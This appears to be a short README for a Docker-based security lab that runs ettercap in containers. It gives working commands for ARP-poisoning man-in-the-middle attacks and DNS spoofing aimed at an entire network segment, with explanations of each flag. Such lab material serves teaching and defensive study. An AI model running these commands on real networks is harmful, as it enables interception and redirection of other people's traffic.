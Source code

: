 git clone https://github.com/liranmatcu/Docker_Security_Labs.git
cd  Docker_Security_Labs/mimt/

# Start ettercap docker instances
docker-compose build
docker-compose up ettercap

## Or start one with doccker command directly
docker run --rm -it           \
      --cap-add SYS_ADMIN     \
      --cap-add NET_ADMIN     \
      eureka-ettercap         \
      -TbqM arp               \
      -oi eth0


docker run --rm -it           \
      --cap-add SYS_ADMIN     \
      --cap-add NET_ADMIN     \
      eureka-ettercap         \
      -T -Q -P dns_spoof -M arp  \
      -oi eth0 // //

ettercap -T -Q -i eth0 -P dns_spoof -M arp // //
-T: Specifies the use of the text-based interface
-q: Runs commands in quiet mode
-P dns_spoof: Specifies the use of the dns_spoof plug-in
-M arp: Initiates a MITM ARP poisoning attack to intercept packets between hosts
// //: Specifies the entire network as the targets


Reference:
https://hub.docker.com/r/mrecco/ettercap
https://github.com/MrEcco/docker-ettercap